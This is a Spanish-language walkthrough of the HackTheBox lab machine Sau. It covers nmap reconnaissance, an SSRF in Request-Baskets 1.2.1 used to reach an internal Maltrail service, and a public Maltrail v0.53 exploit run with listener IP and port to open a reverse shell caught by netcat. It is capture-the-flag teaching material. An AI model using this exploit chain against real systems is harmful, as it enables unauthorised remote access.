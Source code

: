 # HackTheBox Sau Walkthrough

Este documento proporciona un walkthrough detallado para comprometer la máquina Sau en HackTheBox, destacando las técnicas y herramientas clave empleadas en cada etapa.

## Tabla de Contenidos

- [Introducción](#introducción)
- [Reconocimiento](#reconocimiento)
- [Explotación](#explotación)
  - [Explotación de SSRF en Request-Baskets](#explotación-de-ssrf-en-request-baskets)
  - [Explotando Maltrail](#explotando-maltrail)
- [Post-Explotación](#post-explotación)
- [Conclusión](#conclusión)

## Introducción

El propósito de este walkthrough es documentar el proceso seguido para comprometer la máquina Sau, enfocándose en superar varios desafíos de seguridad para obtener acceso como usuario y, finalmente, acceso total.

## Reconocimiento

El reconocimiento es el primer paso crítico en cualquier prueba de penetración. Utilicé `nmap` para identificar los puertos abiertos y los servicios en ejecución en la máquina objetivo:

nmap -sC -sV -oN nmap_initial <IP de la máquina>


Los resultados revelaron los siguientes puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP (No respondía)
- **55555/tcp** - HTTP (Accesible)

El intento de acceso al servidor HTTP en el puerto 80 no cargó, pero el puerto 55555 reveló una aplicación web llamada **Request-baskets**.

## Explotación

### Explotación de SSRF en Request-Baskets

**Request-Baskets** es una herramienta para crear puntos finales temporales para inspeccionar solicitudes HTTP. La versión 1.2.1, que estaba en uso, es vulnerable a SSRF (Server Side Request Forgery). Aproveché esta vulnerabilidad para acceder a servicios internos, en particular, al servicio en el puerto 80.

### Explotando Maltrail

El servicio interno redirigido resultó ser **Maltrail**, una aplicación web de monitoreo de tráfico malicioso. Una búsqueda en Google reveló una vulnerabilidad en la versión específica en uso, permitiéndome ejecutar un reverse shell a través de un exploit disponible públicamente: https://github.com/spookier/Maltrail-v0.53-Exploit

python3 exploit.py [IP de escucha] [Puerto de escucha] [URL objetivo]


Utilicé Netcat para escuchar conexiones entrantes en el puerto especificado, lo que me permitió obtener acceso al sistema como el usuario **puma**.

## Post-Explotación

Dentro del directorio home del usuario **puma**, encontré el archivo `user.txt`, que contenía la flag de usuario, marcando el éxito de la fase de post-explotación.

## Conclusión

Este documento detalla el proceso seguido para comprometer la máquina Sau en HackTheBox, desde el reconocimiento inicial hasta la post-explotación. Este ejercicio subraya la importancia de la actualización de software y la configuración adecuada de seguridad para prevenir vulnerabilidades.


